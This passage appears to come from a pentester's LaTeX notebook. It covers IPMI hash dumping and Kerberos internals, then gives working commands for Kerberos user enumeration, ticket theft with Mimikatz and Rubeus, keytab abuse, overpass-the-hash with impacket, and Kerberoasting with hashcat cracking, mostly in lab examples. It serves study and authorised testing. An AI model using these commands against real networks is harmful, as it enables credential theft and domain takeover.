called Baseboard Management Controllers (BMCs). BMCs are typically implemented
as embedded ARM systems running Linux, and connected directly to the host's
motherboard. BMCs are built into many motherboards but can also be added to a
system as a PCI card. Most servers either come with a BMC or support adding a
BMC. The most common BMCs we often see during internal penetration tests are HP
iLO, Dell DRAC, and Supermicro IPMI. If we can access a BMC during an
assessment, we would gain full access to the host motherboard and be able to
monitor, reboot, power off, or even reinstall the host operating system.
Gaining access to a BMC is nearly equivalent to physical access to a system.
Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based
management console, some sort of command-line remote access protocol such as
Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network
protocol.

\section{Dangerous Settings}
If default credentials do not work to access a BMC, we can turn to a
\href{http://fish2.com/ipmi/remote-pw-cracking.html}{ flaw in
the RAKP protocol} in IPMI 2.0. During the authentication process, the server
sends a salted SHA1 or MD5 hash of the user's password to the client before
authentication takes place. This can be leveraged to obtain the password hash
for ANY valid user account on the BMC. These password hashes can then be
cracked offline using a dictionary attack using {\bf Hashcat mode 7300}. In the event
of an HP iLO using a factory default password, we can use this Hashcat mask
attack command \verb+hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u+ which
tries all combinations of upper case letters and numbers for an eight-character
password.


There is no direct "fix" to this issue because the flaw is a critical component
of the IPMI specification. Clients can opt for very long, difficult to crack
passwords or implement network segmentation rules to restrict the direct access
to the BMCs. It is important to not overlook IPMI during internal penetration
tests (we see it during most assessments) because not only can we often gain
access to the BMC web console, which is a high-risk finding, but we have seen
environments where a unique (but crackable) password is set that is later
re-used across other systems. On one such penetration test, we obtained an IPMI
hash, cracked it offline using Hashcat, and were able to SSH into many critical
servers in the environment as the root user and gain access to web management
consoles for various network monitoring tools.

\section{Footprint /enumeration}

\subsection{nmap}
\begin{verbatim}
 sudo nmap -sU --script ipmi-version -p 623
\end{verbatim}


\subsection{metasploit}
\begin{verbatim}
use auxiliary/scanner/ipmi/ipmi_version
use auxiliary/scanner/ipmi/ipmi_dumphashes
\end{verbatim}



\chapter{Kerberos}

\section{Introduction}
\label{network:kerberos:authentication}

\subsection{major Components}

The Kerberos protocol defines how  clients interact with a network authentication service. Clients obtain  tickets from the Kerberos Key Distribution Center (KDC), and they submit  these tickets to application servers when connections are established.  It uses UDP port 88 by default and depends on the process of symmetric  key cryptography.
“Kerberos uses tickets to authenticate a user and completely avoids sending passwords across the network”.
There are some key components in Kerberos authentication that play a crucial role in the entire authentication process.
\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-components.png}
  \caption{Kerberos components}
  \label{fig:kerberos-components}
\end{figure}

\subsection{workflow}

In the Active Directory domain, every  domain controller runs a KDC (Kerberos Distribution Center) service that  processes all requests for tickets to Kerberos. For Kerberos tickets,  AD uses the KRBTGT account in the AD domain.
The image below shows that the major  role played by KDC in establishing a
secure connection between the  server \& client and the entire process uses some special components  as defined in the table above.

\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-all.png}
  \caption{Kerberos Workflow}
  \label{fig:kerberos-workflow}
\end{figure}


As mentioned above, Kerberos uses  symmetric cryptography for encryption and decryption. Let us get into  more details and try to understand how encrypted messages are sent to  each other. Here we use three colours to distinguish Hashes:
\begin{itemize}
    \item \verb+BLUE _KEY+: User NTLM HASH
    \item \verb+YELLOW_KEY+: Krbtgt NTLM HASH
    \item \verb+RED_KEY+: Service NTLM HASH
\end{itemize}

\subsubsection*{Step 1: Communication initialization}
\verb+KRB_AS_REQ+ contains the following:
\begin{itemize}
    \item Username of the client to be authenticated.
    \item The service SPN (SERVICE PRINCIPAL NAME) linked with Krbtgt account
    \item An encrypted timestamp (Locked with User Hash: Blue Key)
\end{itemize}

The entire message is encrypted using the User NTLM hash (Locked with BLUE KEY) to authenticate the user and prevent replay attacks.

\subsubsection*{Step 2}

The KDC uses a database consisting of Users/Krbtgt/Services hashes to decrypt a message (Unlock with BLUE KEY) that authenticates user identification.
Then KDC will generate TGT (Ticket  Granting Ticket) for a client that is
encrypted using Krbtgt hash  (Locked with Yellow Key) \& some Encrypted Message using User Hash.

\verb+KRB_AS_REP+ contains the following:
\begin{itemize}
    \item  Username
    \item  Some encrypted data, (Locked with User Hash: Blue Key) that contains: 
    \begin{itemize}
        \item  Session key
        \item  The expiration date of TGT
    \end{itemize}
    \item  TGT, (Locked with Krbtgt Hash: Yellow Key) which contains:
    \begin{itemize}
        \item  Username
        \item  Session key
        \item  The expiration date of TGT
        \item  \gls{win:PAC}~\ref{network:ad:kerberos:PAC}
 with user privileges, signed by KDC
    \end{itemize}
\end{itemize}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-1.png}
  \caption{Kerberos TGT}
  \label{fig:kerberos-tgt}
\end{figure}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-2.png}
  \caption{Kerberos TGS}
  \label{fig:kerberos-tgs}
\end{figure}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-3.png}
  \caption{Kerberos Service Authentication}
  \label{fig:kerberos-service}
\end{figure}

\subsubsection*{Step 3}
The \verb+KRB_TGT+ will be stored in the Kerberos tray (Memory) of the client
machine, as the user already has the \verb+KRB_TGT+, which is used to identify  himself for the TGS request. The client sent a copy of the TGT with the  encrypted data to KDC.

\verb+KRB_TGS_REQ+ contains:
\begin{itemize}
    \item Encrypted data with the session key
    \begin{itemize}
        \item Username
        \item Timestamp
    \end{itemize}
    \item TGT
    \item SPN of requested service e.g. SQL service
\end{itemize}


\subsubsection*{Step 4}

The KDC receives the \verb+KRB_TGS_REQ+ message and decrypts the message using
Krbtgt hash to verify TGT (Unlock using Yellow key), then KDC returns a  TGS as
\verb+KRB_TGS_REP+ which is encrypted using requested service hash (Locked with
Red Key) and Some Encrypted Message using User Hash.

\verb+KRB_TGS_REP+ contains:
\begin{itemize}
    \item Username
    \item Encrypted data with the session key:
    \begin{itemize}
        \item Service session key
    \end{itemize}
    \item The expiration date of TGS
    \item TGS, (Service Hash: RED Key) which contains:
    \begin{itemize}
        \item  Service session key
        \item Username
        \item The expiration date of TGS
        \item  \gls{win:PAC}~\ref{network:ad:kerberos:PAC}
 with user privileges, signed by KDC
    \end{itemize}
\end{itemize}


\subsubsection*{Step 5}
The user sent the copy of TGS to the Application Server,\verb+KRB_AP_REQ+ contains:
\begin{itemize}
    \item TGS
    \item Encrypted data with the service session key:
    \begin{itemize}
        \item Username
        \item Timestamp, to avoid replay attacks
    \end{itemize}
\end{itemize}

\subsubsection*{Step 6}
The  application attempts to decrypt the message using its NTLM hash and to  verify the PAC from KDC to identify user Privilege which is an optional  case.
\subsubsection*{Step 7}
KDC verifies PAC (Optional)
\subsubsection*{Step 8}
Allow the user to access the service for a specific time.

\subsection{Privileged Attribute Certificate (PAC)}
\label{network:ad:kerberos:PAC}

The \gls{win:PAC} is an extension to Kerberos tickets that contains useful
information about a user’s privileges.  This information is added to Kerberos
tickets by a domain controller when a user authenticates within an Active
Directory domain.  When users use their Kerberos tickets to authenticate to
other systems, the PAC can be read and used to determine their level of
privileges without reaching out to the domain controller to query for that
information (more on that to follow).

PACs contain very sensitive information and therefore have been the target of
several Active Directory attack techniques over the years.

PAC is double encrypted (SPN hash) signed by the KDC hash.

Critical services in term of perf (MSSQL) don't ask the KDC to verify this open
to PAC forgery attack

\url{https://stealthbits.com/blog/what-is-the-kerberos-pac/}


\subsection{Service Principal Name (SPN)}
\label{network:ad:kerberos:SPN}
\index{Active Directory!SPN}

\gls{win:SPN}s are unique identifiers that Kerberos uses to map a service
instance to a service account in whose context the service is running. Domain
accounts are often used to run services to overcome the network authentication
limitations of built-in accounts such as \verb+NT AUTHORITY\LOCAL SERVICE+

Active Directory Domain  Services and Windows provide support for Service Principal Names (SPNs),  which are key components of the Kerberos mechanism through which a  client authenticates a service.

Domain accounts running services are often local administrators, if not highly
privileged domain accounts. Due to the distributed nature of systems,
interacting services, and associated data transfers, service accounts may be
granted administrator privileges on multiple servers across the enterprise.
Many services require elevated privileges on various systems, so service
accounts are often added to privileged groups, such as Domain Admins, either
directly or via nested membership. {\bf Finding SPNs associated with highly
privileged accounts in a Windows environment is very common}. 

Important Points:
\begin{enumerate}
\item If you install multiple instances of a service on computers throughout a forest, each instance must have its SPN. 
\item Before the Kerberos authentication service can use an SPN to authenticate a service, the SPN must be registered on the account.
\item A given SPN can be registered on only one account. 
\item An SPN must be unique in the forest in which it is registered.
\item If it is not unique, authentication will fail.
\end{enumerate}

\subsubsection{SPN format}
\verb+<ServiceClass>/<host>:<port> <serviceName>+
\begin{itemize}
    \item \verb+ServiceClass+: \verb+HTTP, LDAP,MSSQLSVC+ \ldots
    \item \verb+host+: \verb+<DomainName>/wMachineName>+
\end{itemize}


\subsubsection{Type of SPN}
\begin{itemize}
\item Host-based SPNs which is associated  with the computer account in AD, it is randomly generated 128-character  long password which is changed every 30 days, hence it is no use in  Kerberoasting attacks
\item SPNs that have been associated with a domain user account where NTLM hash will be used.
\end{itemize}

\subsection{Pre-authentication}
\label{windows:authentication:kerberos:preauthentication}

Pre-authentication requires that requestors prove their identity before the KDC will issue a ticket for a particular principal. There are several types of pre-authentication defined by the Kerberos Clarifications document. However, only the  encrypted timestamp (PA-ENC-TIMESTAMP) pre-authentication method is commonly implemented.

Pre-authentication is controlled by KDC policy. If a user attempts to acquire
initial tickets through the AS exchange, but the KDC requires
pre-authentication, then the KDC will send a \verb+KRB_ERROR+ message instead
of an \verb+AS_REP+ in reply to the client AS request. This \verb+KRB_ERROR+ message tells the client that pre-authentication is required. If the KDC responds with the error \verb+PRINCIPAL UNKNOWN+, the username is invalid.

This request used for username enumeration does not cause logon failures and will not
lock out accounts.



After the enumeration of user accounts is finished, we can attempt to abuse a
feature within Kerberos with an attack method called \verb+ASREPRoasting+. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

The Kerberos protocol defines how  clients interact with a network authentication service. Clients obtain  tickets from the Kerberos Key Distribution Center (KDC), and they submit  these tickets to application servers when connections are established.  It uses UDP port 88 by default and depends on the process of symmetric  key cryptography.
“Kerberos uses tickets to authenticate a user and completely avoids sending passwords across the network”.
There are some key components in Kerberos authentication that play a crucial role in the entire authentication process.

This method does not generate Windows event ID
\href{https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625}{4625:
An account failed to log on}, or a logon failure which is often monitored for.

\url{https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication}

\subsection{MIT vs Microsoft}
\url{https://www.techblog.moebius.space/posts/2018-05-25-kerberos-an-overview-of-principals-and-keytabs/#keytabs}

Kerberos uses a key agreement process to exchange messages. Both the  client and KDC know the users "long term credential" which is their  password hashed using a specific key derivation function. When the  client wants to send a message to the KDC, it encrypts it using the long  term credential. The KDC knows that credential so it can decrypt it.  The response is encrypted in the same way.
Neither party sends the password or its hash to the other in general use.


\subsection{Keytabs}
In most cases, end-users would authenticate to the KDC using their  client secret (i.e their password). However, it would be cumbersome for  automated scripts and applications to regularly (re)authenticate using a  password.
This is where it might make sense to use a keytab. A keytab (Key  Table), is a file storing pairs of Kerberos principals and their keys.  When users generally start the authentication process using kinit, they  are prompted for their password - which triggers the KDC to provide it  the TGT, and then initiate the follw-up requests for service tickets.  What the keytab does is when the client wishes to initiate  authentication, the password is sent automatically to the KDC (in  encrypted form) from the keytab file, rather than prompting for it.
The consequences of this are fairly obvious. Anyone who has access to  a keytab can essentially impersonate the principal(s) contained within  it. So its safe to say that keytabs should be protected just like  passwords.

\subsection{Links}
\begin{itemize}
    \item \url{https://www.roguelynn.com/words/explain-like-im-5-kerberos/}
    \item \url{https://www.kerberos.org/software/tutorial.html}
\end{itemize}

\section{Kerberos Protocol Extensions}

\subsection{Kerberos Delegation Protocol}

See~ \ref{windows:authentication:kerberos:delegation}



\subsection{Public Key Cryptography for Initial Authentication (PKINIT)}
\label{ref:kerberos:pkinit}
This protocol enables the use of public key cryptography in the initial authentication exchange of the Kerberos Protocol (PKINIT) and specifies the Windows implementation of PKINIT where it differs from [RFC4556].

A user will sign the authenticator for a TGT request using the private key of their certificate and submit this request to a domain controller. The domain controller performs a number of verification steps and issues a TGT if everything passes. These steps are best detailed by Microsoft’s smart card documentation
\begin{verbatim}
The KDC validates the user's certificate (time, path, and revocation status) to
ensure that the certificate is from a trusted source. The KDC uses CryptoAPI to
build a certification path from the user's certificate to a root certification
authority (CA) certificate that resides in the root store on the domain controller.
The KDC then uses CryptoAPI to verify the digital signature on the signed
authenticator that was included in the preauthentication data fields. The
domain controller verifies the signature and uses the public key from the user's
certificate to prove that the request originated from the owner of the private
key that corresponds to the public key. The KDC also verifies that the issuer is
trusted and appears in the NTAUTH certificate store.
\end{verbatim}

The \verb+NTAUTH certificate store+ mentioned here refers to an AD object AD CS
installs at the following location:
\begin{verbatim}
CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>
\end{verbatim}

Microsoft explains the significance of this object:
\begin{verbatim}
By publishing the CA certificate to the Enterprise NTAuth store, the
Administrator indicates that the CA is trusted to issue certificates of these types.
Windows CAs automatically publish their CA certificates to this store.
\end{verbatim}

When AD CS creates a new CA (or it renews CA certificates), it publishes the new certificate to the \verb+NTAuthCertificates+ object by adding the new
certificate to the object’s cacertificate attribute. 

During certificate authentication, the DC can then verify that the authenticating certificate chains to a CA certificate defined by the \verb+NTAuthCertificates+ object. CA certificates in the \verb+NTAuthCertificates+ object must in turn chain to a root CA. The big takeaway here is {\bf the NTAuthCertificates object is the root of trust for
certificate authentication in Active Directory!}

\subsubsection{Key Trust}

Microsoft introduced the concept of \href{https://learn.microsoft.com/en-us/windows/security/identity-protection/hello-for-business/deploy/hybrid-key-trust}{Key Trust} to enable passwordless authentication in environments that don't support Certificate Trust. With Key Trust, PKINIT authentication is established using raw key data stored in the AD object's attribute called \verb+msDS-KeyCredentialLink+ instead of a certificate.

The client's public key is stored in the multi-value attribute, \verb+msDS-KeyCredentialLink+. This attribute's values are Key Credentials, serialized objects containing information such as the creation date, the distinguished name of the owner, a GUID that represents a Device ID, and, of course, the public key. It is a multi-value attribute because an account has several linked devices.

Microsoft passwordless solution is called \href{https://learn.microsoft.com/en-us/windows/security/identity-protection/hello-for-business/}{Windows Hello for Business (WHfB)}. With WHfB, when a user enrolls, the TPM generates a public-private key pair for their account. The private key is stored in the TPM and never leaves it.

\begin{itemize}
    \item With Certificate Trust model: the client issues a certificate request to obtain a trusted certificate from the environment’s certificate issuing authority for the TPM-generated key pair
    \item Without Certificate Trust model: the public key is stored in a new Key Credential object in the msDS-KeyCredentialLink attribute of the account
\end{itemize}

For compatibility purposes, when a client uses PKINIT and needs to communicate with a service that doesn't support Kerberos authentication, NTLM is used. Microsoft introduced a special Service Ticket as an alternative authentication method to address that. This ticket contains the NTLM hash inside the {\bf Privilege Attribute Certificate (PAC)} in an encrypted {\bf \verb+NTLM_SUPPLEMENTAL_CREDENTIAL+} entity

The encrypted PAC is stored within the ticket, which is encrypted using the key of the service it was issued for. To obtain a ticket that can be decrypted, the client needs to perform Kerberos User-to-User (U2U) authentication to itself.

Every time a client requests a TGT, a new session key is created. The KDC does not keep a record of active session keys but extracts the session key from the client's ticket. When a user requests a U2U TGS-REQ, the KDC uses the target user's TGT as an additional ticket in the response. The KDC then extracts the session key from the encrypted part of the TGT and generates a new service ticket.

 if we request a U2U Service Ticket from ourselves to ourselves, we will be able to decrypt the ticket and access the PAC and the NTLM hash because the key used to encrypt the ticket is in our possession. By modifying the msDS-KeyCredentialLink property, we can also obtain a user's or computer's NTLM hash.

\section{Fingerprinting}

\begin{verbatim}
$ sudo nmap –p 88


PORT STATE SERVICE VERSION
88/tcp open kerberos-sec?
\end{verbatim}

\section{Enumeration}

\subsection{User enumeration}

\subsubsection{nmap}

\begin{verbatim}
sudo nmap –p 88 \
    –script-args krb5-enum-users.realm=’[domain]’,userdb=[user list] [DC IP]
\end{verbatim}

\subsubsection{kerbrute}

Kerbrute~\ref{tool:kerbrute:user-enum} using kerberos pre-authn. Note if user
does not requiere pre-auth Kerbrute will dump the hash.{\bf  WARNING} if the hash
can't be crack it might be possible that the one grabbed using TGT grabbed
using GGetNPUsers~\ref{tool:impacket:GetNPUSers}

\subsubsection{Metasploit}
\verb+auxiliary/gather/kerberos_enumusers+


\section{Linux setup}
\subsection{Attacking from non domain joined linux}
. If we use them from a domain-joined machine, we need to ensure our KRB5CCNAME environment variable is set to the ccache file we want to use. In case we are attacking from a machine that is not a member of the domain, for example, our attack host, we need to make sure our machine can contact the KDC or Domain Controller, and that domain name resolution is working.

In this scenario, our attack host doesn't have a connection to the KDC/Domain
Controller, and we can't use the Domain Controller for name resolution. To use
Kerberos, we need to proxy our traffic via MS01 with a tool such as Chisel and
Proxychains and edit the /etc/hosts file to hardcode IP addresses of the domain
and the machines we want to attack. 

\subsection{Adjusting time}

\begin{verbatim}
$ sudo timedatectl set-ntp false
$ ## edit /etc/systemd/timesyncd.conf to point
$ cat /etc/systemd/timesyncd.conf |grep '^NTP'
NTP=dc.intelligence.htb
# $ sudo timedatectl set-ntp true
\end{verbatim}

if it does not works

\begin{verbatim}
$ nmap -sV -sC 10.10.10.10
clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s

$ nmap -sT dc01.coder.htb -p445 --script smb2-time -vv
Host script results:
| smb2-time:
|   date: 2023-04-03T09:15:47
|_  start_date: N/A
\end{verbatim}



\begin{verbatim}
$ sudo timedatectl set-ntp false
$ ldapsearch -LLL -x -H ldap://10.10.10.248 -b '' -s base '(objectclass=*)' |
    grep currentTime
currentTime: 20230128092311.0Z
$ sudo timedatectl set-time '2023-01-28 10:31:31'
\end{verbatim}

\subsection{Setup Kerberos client}

some tools such as \verb+evil-winrm+ require \verb+krb5+ package

\begin{verbatim}
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
\end{verbatim}

might need to setup some hosts in \verb+/etc/hosts+



\section{Brute force / spraying}
\verb+kerbrute+~\ref{tool:kerbrute:password-spraying}

\verb+domainPasswordSpray+~\ref{tool:domainpasswordspray}

\section{Stealing Kerberos Tickets}

\subsection{Ticket conversion}
If we want to use a ccache file in Windows or a kirbi file in a Linux machine,
we can use impacket \verb+ticketConverter+ to convert them:



\subsection{On windows}

\subsubsection{Mimikatz}
Mimikatz module \verb+sekurlsa::tickets /export+. The result is a list of files
with the extension .kirbi, which contain the tickets.

Need to \verb+privilege::debug+

\subsubsection{Rubeus}

\begin{verbatim}
Rubeus.exe dump /nowrap
\end{verbatim}


\subsection{from a domain joined linux}

\href{https://github.com/CiscoCXSecurity/linikatz}{Linikatz} is a tool created
by Cisco's security team for exploiting credentials on Linux machines when
there is an integration with Active Directory. In other words, Linikatz brings
a similar principle to Mimikatz to UNIX environments.


\subsection{Abusing keytab files}

\begin{itemize}
    \item \verb+klist+: list cached Kerberos tickets
    \item \verb+kinit+: get a TGT
\end{itemize}
    

\subsubsection{Impersonation}

Simply use the keytab file of anoter user

\begin{verbatim}
# list content of a keytab file
$ klist -k -t [<file>]

# kinit <principal> -k -t <keytab file> 

# confirm
$ klist 
\end{verbatim}

\subsubsection{Extracting keytab Hashes}

\begin{verbatim}
$ KeyTabExtract <keytab file>
\end{verbatim}

then crack and login or generate a TGT with impacket \verb+getTGT+



\section{Forging Kerberos Tickets}
\subsection{OverPass the Hash / Pass the Key}
\href{https://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash}{Overpass-the-hash
par Gentil Kiwi in french}

\href{https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18}{Abusing
Microsoft Kerberos - Sorry you guys don't get it}

This attack aims to use the user NTLM hash or AES keys to request Kerberos
tickets, as an alternative to the common Pass The Hash over NTLM protocol.
Therefore, this could be especially useful in networks where NTLM protocol is
disabled and only Kerberos is allowed as authentication protocol.

In order to perform this attack, the NTLM hash (or password) of the target user
account is needed. Thus, once a user hash is obtained, a TGT can be requested
for that account. Finally, it is possible to access any service or machine
where the user account has permissions.


\subsubsection{From Windows}






\subsubsection{From Linux}

\begin{verbatim}
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
\end{verbatim}

\subsection{Kerberoasting}
\label{kerberos:kerberoasting}

\url{https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/}

\subsubsection{Introduction}
This attack may be used for both lateral and vertical movement.

When  a domain account is configured to run a service (for example, IIS, MSSQL,
\ldots.), a \gls{win:SPN}~\ref{windows_knowledge:ad:kerberos:SPN} is  used to
associate the service with a login account. 

If a user  wants to access the resource, they receive a \verb+TGS+ signed with
the NTLM password hash of the account running the service.

Hackers can  then crack this hash offline and use it to gain access. 

Any user on the domain with a valid \verb+TGT+ can request a \verb+TGS+ for any
service with an \verb+SPN+. Note that there is no fix or patch beyond ensuring
that the password for the service accounts are sufficiently complex.

{\bf Note:} 
\begin{itemize}
    \item with ACL abuse attack it is also possible to associate a SPN to a user account
in order to gain access to his password.
    \item computer account SPN should be avoided (long random password).
\end{itemize}

Kerberoasting Major Steps:
\begin{enumerate}
    \item domain access 
    \item discover SPNs
    \item Request for TGS ticket for discovered SPN 
    \item Dump the TGS ticket 
    \item Convert into crackable format
    \item brutforce the hash (hashcat format 13100 or JtT format \verb+krb5tgs+)
    \item test authentication (rpcclient, crackmap \ldots)
\end{enumerate}

{\bf Post exploit}: PAC forgery

\subsubsection{From Linux}

\begin{itemize}
    \item crackmapexec~\ref{tool:crackmapexec:ldap:kerberoasting}
    \item GetUserSPNs~\ref{tool:impacket:GetUserSPNs}
    \item metasploit (from meterpreter 
        \verb+powershell_import Invoke-kerberoast.ps1+)
    \item PowerSheel Empire (module \verb+credentials/invoke_kerberoast+)
    \item Pypykatz
\end{itemize}


\subsubsection{From Windows}
{\bf Semi Manual method}
\begin{enumerate}
    \item {\bf setspn} to enumerate the SPN
\begin{verbatim}
setspn.exe -Q */*
\end{verbatim}

    \item retrieve the TGS with :
        \begin{itemize}
                \item PowerShell
        (\href{https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8}{System.IdentityModel}
        is a namespace that contains different classes for building security
    token services) 
\begin{verbatim}
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken `
    -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
\end{verbatim}
or for all services (bu will inculde computer accounts
\begin{verbatim}
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | `
    % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken ` 
    -ArgumentList $_.Context.PostContext[0].Trim() }
\end{verbatim}
                \item \verb+Powerview+~\ref{tool:powerview:Get-DomainGPO}
        \end{itemize}

    \item Extract Tickets from Memory with Mimikatz~\ref{tool:mimikatz:KRBDUmp}
    \item transfer file on Linux box~\ref{misc:file_transfert}
    \item Prepar the Base64 Blob for Cracking
\begin{verbatim}
echo "<BASE64_BLOB>" |  tr -d \\n
\end{verbatim}
    \item Place the Output into a File as .kirbi
\begin{verbatim}
cat encoded_file | base64 -d > sqldev.kirbi
\end{verbatim}
    \item Extract the Kerberos Ticket using kirbi2john.py
\begin{verbatim}
python2.7 kirbi2john.py sqldev.kirbi
\end{verbatim}
    \item Modifiy crack file for Hashcat
\begin{verbatim}
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' \
    crack_file > sqldev_tgs_hashcat
\end{verbatim}
    \item View the Prepared Hash
\begin{verbatim}
cat sqldev_tgs_hashcat
\end{verbatim}
    \item Crack the Hash with Hashcat
\begin{verbatim}
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
\end{verbatim}
\end{enumerate}

{\bf Automated: Rebeus }
See Rubeus~\ref{tool:rubeus}


{\bf Automated: Powerview}

Using
\href{https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1}{PowerView}
to Extract TGS Tickets.

\begin{verbatim}
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname

Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | `
    Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
\end{verbatim}

\subsubsection{A Note on Encryption Types}


Kerberoasting tools typically request RC4 encryption when performing the attack
and initiating TGS-REQ requests. This is because RC4 is weaker and easier to
crack offline using tools such as Hashcat than other encryption algorithms such
as AES-128 and AES-256. When performing Kerberoasting in most environments, we
